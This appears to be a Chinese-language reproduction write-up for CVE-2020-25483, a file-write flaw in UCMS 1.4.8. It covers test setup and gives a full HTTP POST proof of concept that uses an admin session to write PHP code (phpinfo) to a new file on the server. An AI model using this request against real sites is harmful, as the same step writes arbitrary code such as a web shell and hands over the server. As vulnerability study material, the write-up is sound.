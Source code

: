 # UCMS 文件上传漏洞 CVE-2020-25483

## 漏洞描述

UCMS v1.4.8版本存在安全漏洞，该漏洞源于文件写的fopen()函数存在任意命令执行漏洞，攻击者可利用该漏洞可以通过该漏洞访问服务器。

## 环境搭建

到官网http://uuu.la/下载源码（http://uuu.la/uploadfile/file/ucms_1.4.8.zip），解压到web目录，访问[http:///install/index.php](http://127.0.0.1/opensis/install/index.php)进行安装。

访问/ucms/login.php，显示正常及环境安装成功。

![20221206164828](images/20221206164828.png)

## 漏洞复现

登录账户

![](images/20221206164829.png)

poc：

访问/ucms/index.php?do=sadmin_fileedit&dir=/&file=1.php抓包。

写入php代码，发送。

```
POST /ucms/index.php?do=sadmin_fileedit&dir=/&file=1.php HTTP/1.1

Host: ucms.com

Content-Length: 58

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://ucms.com

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36 Edg/87.0.664.41

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://ucms.com/ucms/index.php?do=sadmin_fileedit&dir=/&file=CNVD.php

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: admin_213f42=admin; psw_213f42=0ef8fa2c997f64b78cde98b6c7c9cc0a; token_213f42=78012aac

Connection: close


uuu_token=78012aac&co=%3C%3Fphp+phpinfo%28%29%3F%3E&pos=17
```

get /1.php

![20221206165017](images/20221206165017.png)